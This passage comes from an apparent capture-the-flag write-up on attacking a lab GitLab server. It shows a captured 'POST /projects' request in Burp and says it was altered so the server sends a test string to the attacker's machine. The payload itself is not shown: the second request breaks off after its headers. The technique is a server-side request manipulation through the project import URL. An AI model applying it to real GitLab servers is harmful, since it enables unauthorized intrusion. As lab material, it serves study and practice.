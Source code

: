 ![Pasted image 20210429225050.png](../../zzz_res/attachments/Pasted_image_20210429225050.png)

```http
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 317
Origin: http://10.10.10.220:5080
Connection: close
Cookie: _gitlab_session=09091cb83a47305f01ddec7c77a45d15; sidebar_collapsed=true; event_filter=all
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=aftxcmnuS8Omyy8hNlcAIh1FS4bve7Ynayo4MGngN2PDRqLqEX40n3qKOSG9ZTLRNR9rxOakhyzSTKGlyqrl6Q%3D%3D&project%5Bimport_url%5D=test&project%5Bci_cd_only%5D=false&project%5Bname%5D=test&project%5Bnamespace_id%5D=3&project%5Bpath%5D=test&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

After that, the request was modified to contain the malicious payload, which in this case send to the attacker machine the string “pippo”. To avoid problems with special characters the url-encode of the whole payload was executed using the burpsuite plugin *hackvector*.

```http
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.220:5080/projects/new
Content-Type: application/x-www-form-urlencoded
Content-Length: 772
Origin: http://10.10.10.220:5080
Connection: close
Cookie: _gitlab_session=09091cb83a47305f01ddec7c77a45d15; sidebar_collapsed=true; event_filter=all
Upgrade-Insecure-Requests: 1

```